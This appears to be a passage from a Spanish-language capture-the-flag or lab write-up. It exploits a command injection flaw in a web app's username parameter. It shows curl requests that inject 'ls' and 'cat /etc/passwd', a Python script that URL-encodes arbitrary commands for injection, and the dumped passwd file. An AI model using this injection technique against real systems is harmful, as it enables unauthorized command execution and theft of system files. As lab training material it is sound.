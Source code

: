 ```shell
curl -X POST 'http://<IP>:5000/?username=ls&password=test'
```

Info:

```
app.py
```

Por lo que fue exitoso la inyeccion de codigo...

Crearemos un script de `python` para que nos codifique la `URL` y asi podamos de hacer inyeccion de codigo concatenando varios comandos...

```python
import urllib.parse

username = "<COMMAND>"
password = "test"

# Codificar los parámetros de la URL
encoded_username = urllib.parse.quote(username)
encoded_password = urllib.parse.quote(password)

# Construir la URL codificada
url = f"http://<IP>:5000/?username={encoded_username}&password={encoded_password}"

print(url)
```

Si donde pone `<COMMAND>` ponemos un `cat /etc/passwd` y lo ejecutamos, obtendremos lo siguiente...

```shell
python3 <SCRIPT_PYTHON>.py
```

Info:

```
http://<IP>:5000/?username=cat%20/etc/passwd&password=test
```

Por lo que lo enviamos con `curl`...

```shell
curl -X POST 'http://<IP>:5000/?username=cat%20/etc/passwd&password=test'
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
```